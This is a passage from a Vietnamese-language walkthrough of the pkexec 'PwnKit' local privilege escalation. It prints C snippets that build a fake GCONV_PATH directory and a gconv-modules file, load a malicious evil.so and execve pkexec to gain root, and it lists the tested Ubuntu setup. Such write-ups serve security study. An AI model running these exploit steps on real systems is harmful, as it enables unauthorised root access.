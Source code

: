 **3. Tạo thư mục và tập tin giả**

```c
system("mkdir GCONV_PATH=.");
system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
```

- mkdir GCONV_PATH=.: Tạo một thư mục giả mạo có tên GCONV_PATH=.
- touch GCONV_PATH=./evildir: Tạo một tập tin có tên evildir (dùng để đánh lừa pkexec).
- chmod 777 GCONV_PATH=./evildir: Cấp quyền đọc, ghi, thực thi cho tất cả người dùng.

**4. Tạo thư mục chứa module gconv giả**

```c
system("mkdir " DIR);
system("echo 'module\tINTERNAL\t\tryaagard//\t\t" EVILSO "\t\t2' > " DIR "/gconv-modules");
```

- mkdir evildir: Tạo thư mục evildir, nơi chứa thư viện gconv giả.
- echo 'module INTERNAL ryaagard// evil 2' > evildir/gconv-modules:
  - Khai báo một module gconv giả có tên ryaagard.
  - Gán module ryaagard trỏ đến thư viện độc hại evil.so.
  - INTERNAL: Đánh dấu module này không thực hiện chuyển đổi thực sự, chỉ dùng để tải thư viện.

**5. Sao chép thư viện độc hại**

```c
system("cp " EVILSO ".so " DIR);
```

- cp evil.so evildir/: Chép thư viện độc hại (evil.so) vào thư mục evildir/.

**6. Thực thi pkexec với môi trường giả**

```c
execve(BIN, argv, envp);
```

- Gọi execve() để chạy /usr/bin/pkexec với danh sách biến môi trường envp[].

pkexec sẽ:
- Tìm kiếm module gconv dựa vào GCONV_PATH=.
- Tải gconv-modules giả.
- Nạp thư viện evil.so.
- Chạy mã trong evil.so, giúp kẻ tấn công thực thi lệnh với quyền root.

### 2.4 Khai thác

**Phiên bản khai thác:**

* Hệ điều hành (OS): Ubuntu 20.04

![image](https://hackmd.io/_uploads/SkVit5FCyg.png)

* Kernel: 5.4.0-107-generic

![image](https://hackmd.io/_uploads/HkcpY5tAyg.png)

* Phiên bản pkexec: 0.105
